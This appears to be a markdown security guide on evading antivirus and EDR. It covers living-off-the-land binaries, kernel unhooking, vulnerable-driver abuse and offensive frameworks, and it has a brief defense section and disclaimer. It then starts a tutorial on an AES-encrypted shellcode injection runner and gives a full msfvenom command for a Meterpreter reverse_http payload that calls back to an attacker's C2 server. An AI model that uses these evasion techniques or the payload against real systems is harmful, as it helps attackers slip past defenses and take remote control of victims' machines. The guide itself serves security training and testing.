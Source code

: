 ### Living Off The Land (LOLBAS)
This involves using legitimate, pre-existing tools on a system to perform malicious activities. Since these are trusted system binaries, their actions are less likely to be flagged as malicious.
*   **Examples:** `PowerShell.exe`, `certutil.exe`, `wmic.exe`, `bitsadmin.exe`.

### Kernel-Level Bypasses
These are the most advanced techniques and often involve exploiting vulnerabilities to run code in the kernel.
*   **Direct Kernel Object Manipulation:** Modifying kernel structures directly to unhook EDR sensors from key system APIs. This effectively blinds the EDR.
*   **Bring Your Own Vulnerable Driver (BYOVD):** An attacker with admin privileges can load a legitimate but vulnerable driver to exploit it and gain kernel-level code execution.

### Tools and Frameworks
*   **Metasploit Framework:** Provides various encoders and payloads to help evade AV.
*   **Veil Framework:** A tool designed to generate AV-evading payloads.
*   **SharpShooter:** Payload generation framework.
*   **Cobalt Strike:** A commercial threat emulation platform with many built-in evasion features.

### Countermeasures and Defense
*   **Layered Defense:** Use a combination of AV, EDR, application whitelisting, and firewalls.
*   **Behavioral Monitoring:** Focus on detecting malicious *behavior* rather than just malicious *files*.
*   **Threat Hunting:** Proactively search for signs of compromise within the network.
*   **User Training:** Educate users about phishing and other social engineering tactics.

### Disclaimer
This guide is for educational and authorized security testing purposes ONLY. Using these techniques for unauthorized activities is illegal and unethical. Always obtain explicit, written permission before conducting any security testing.

---

## Practical Example: Shellcode Injection with AES Encryption

This tutorial, inspired by a post from [San3ncrypt3d](https://san3ncrypt3d.com/2022/03/24/AESInj/), demonstrates a basic implementation of a shellcode runner that decrypts an AES-encrypted payload and injects it into a target process. While the injection technique itself is well-known to security products, this example focuses on the implementation of AES encryption as a method of evading static analysis.

### Step 1: Generate Shellcode with Msfvenom

First, we need to generate the shellcode we want to execute on the target machine. We can use Metasploit's `msfvenom` for this. The following command generates a 64-bit reverse HTTP payload in C# format.

```bash
msfvenom -p windows/x64/meterpreter/reverse_http LHOST=<YOUR_IP> LPORT=443 -f csharp
```
Replace `<YOUR_IP>` with the listening address for your command and control (C2) server. This command will output a byte array containing the shellcode.
